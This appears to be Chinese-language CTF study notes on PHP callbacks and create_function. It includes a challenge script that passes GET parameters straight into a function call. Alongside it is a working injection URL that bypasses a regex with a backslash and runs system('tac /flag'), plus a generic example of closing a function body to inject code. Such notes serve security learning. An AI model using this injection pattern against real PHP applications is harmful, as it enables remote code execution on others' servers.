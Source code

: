 ```php
把完整的函数作为回调传入call_user_func()
<?php
call_user_func(function($arg) { print "[$arg]\n"; }, 'test');
?>

以上示例会输出：

[test]
```

##### create_function()

'''
`create_function` 是 PHP 的一个内置函数，但是在 PHP 7.2.0 以后，这个函数已经被废弃，官方文档中推荐使用匿名函数作为替代。

例如：

```php
<?php
$newfunc = create_function('$x', 'return $x * $x;');
echo "Square of 3 is " . $newfunc(3);
?>
```

在这个例子中，`create_function` 创建了一个新函数，这个函数接收一个参数 x 并且返回 x 的平方。然后我们用这个新函数来计算 3 的平方。

**create_function 函数在 PHP 内部实际上是使用了 eval() 函数来创建新的函数。**

```php
<?php
//sorry , here is true last level
//^_^
error_reporting(0);
include "str.php";

$a = $_GET['a'];
$b = $_GET['b'];
if(preg_match('/^[a-z0-9_]*$/isD',$a)){
    show_source(__FILE__);
}
else{
    $a('',$b);
}

URL query example: ?a=\create_function&b=}system('tac /flag');//
```

在上面这个例子中，`\`被用来绕过正则表达式（其他符号试过貌似都不行），`}` 是结束前一个函数体，`//` 是注释后面的内容。总的来说，这个例子是利用 `create_function` 来执行 `tac /flag`.
'''

直接对着闭合就行,name处也可以注入

```php
源代码：
function fT($a) {
  echo "test".$a;
}
 
注入后代码：
function fT($a) {
  echo "test";}
  phpinfo();/*;//此处为注入代码。
}
```
